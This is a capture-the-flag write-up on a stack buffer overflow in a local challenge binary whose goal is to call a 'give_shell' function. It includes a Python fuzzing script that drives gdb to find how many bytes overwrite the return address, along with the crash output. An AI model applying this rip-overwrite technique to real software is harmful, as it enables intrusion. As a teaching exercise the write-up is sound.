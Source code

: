 Goal: Call `give_shell` when one of my methods returns

Looking at the input, the program ran normally with 32 and 33 char long inputs, but once I got to 50. characters it started to segfault.

It seemed like the some of the input data was popped off of the top of the stack and into `rip` when main returned, so I wrote a script to bruteforce the data needed to overwrite it:
```python
def segFuzz(p):
	n = 0
	base = b"".join([struct.pack("B", 0x41) for i in range(0,31)])
	while True:
		data = base + b"".join([struct.pack("B", 0x41) for i in range(0,n)])
		p.sendline("r")
		p.sendline(data)
		p.recvuntil("Hi")
		p.recvline()
		if(re.search("exited normally", cleanLine(p.recvline()))):
			n += 1
			print(n)
		else:
			print(cleanLine(p.recvline()))
			p.recvuntil("(gdb)")
			p.sendline("info registers rip")
			ln = cleanLine(p.recvline())
			l = re.split("\s+", ln)
			print(l[2])
			if n == 20:
				p.interactive()
			else:
				n +=1
				print(n)
	print(data)	
```

```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 Boffin_Local_Debug.py
[+] Starting local process '/bin/bash': pid 173019
1
2
...omitted for brevity...
9
Program received signal SIGBUS, Bus error.
0x7ffff7df2600

10
Program received signal SIGSEGV, Segmentation fault.
0x7ffff7df0041

11
Program received signal SIGSEGV, Segmentation fault.
0x7ffff7004141

12
Program received signal SIGSEGV, Segmentation fault.
0x7f0041414141

13
Program received signal SIGSEGV, Segmentation fault.
0x4141414141

14
Program received signal SIGSEGV, Segmentation fault.
0x414141414141
```